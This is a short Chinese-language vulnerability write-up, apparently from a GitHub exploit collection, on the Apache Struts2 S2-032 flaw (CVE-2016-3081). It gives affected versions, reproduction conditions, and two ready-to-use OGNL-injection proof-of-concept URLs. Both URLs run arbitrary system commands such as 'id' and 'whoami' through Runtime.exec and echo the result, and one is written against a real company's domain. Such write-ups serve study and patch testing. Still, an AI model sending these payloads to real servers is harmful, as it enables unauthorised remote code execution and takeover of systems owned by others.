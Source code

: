 # （CVE-2016-3081）s2-032

## 一、漏洞简介

当启用动态方法调用时，可以传递可用于在服务器端执行任意代码的恶意表达式。
method: Action 前缀去调用声明为 public 的函数，只不过在低版本中 Strtus2 不会对 name 方法值做 OGNL 计算，而在高版本中会。

## 二、漏洞影响

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

## 三、复现过程

需要开启动态方法调用

使用?method:execute的方式调用execute方法（execute方法是struts2中默认的action调用方法），在method:后面加上我们要执行的ognl表达式即可执行任意代码了

光有回显 poc

```bash
http://baidu.com/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
/memoindex.action?method:%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%23res%3D%40org.apache.struts2.ServletActionContext%40getResponse()%2C%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D)%2C%23w%3D%23res.getWriter()%2C%23a%3Dnew%20java.util.Scanner(%40java.lang.Runtime%40getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.d%5B0%5D)%2C%23str%3D%23a.hasNext()%3F%23a.next()%3A%23parameters.dd%5B0%5D%2C%23w.print(%23str)%2C%23w.close()%2C%23request.toString&cmd=whoami&dd=%20&d=____A&encoding=UTF-8

```

